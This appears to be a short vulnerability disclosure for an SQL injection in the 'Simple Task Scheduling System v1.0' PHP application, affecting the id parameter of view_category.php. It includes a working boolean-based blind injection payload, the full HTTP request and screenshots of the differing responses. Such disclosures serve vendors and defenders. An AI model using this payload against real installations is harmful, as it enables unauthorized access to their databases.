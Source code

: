# Simple Task Scheduling System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15328/simple-task-scheduler-system-phpoop-free-source-code.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /tss/admin/categories/view_category.php

Vulnerability location: /tss/admin/categories/view_category.php, id

db_name = tss_db;length=6

[+] Payload: /tss/admin/categories/view_category.php?id=1%27%20and%20length(database())%20=6--+ // Leak place ---> id

```sql
GET /tss/admin/categories/view_category.php?id=1%27%20and%20length(database())%20=6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=tc6akb10bh652defck09t9eug4
Connection: close
```

When length (database ()) = 6
![image](https://user-images.githubusercontent.com/54017627/179392383-ed052d85-6d69-4fd4-a0a3-62cd46ed51b2.png)

When length (database ()) = 5
![image](https://user-images.githubusercontent.com/54017627/179392390-ae252c71-6482-4026-9664-231d3d34b6bf.png)
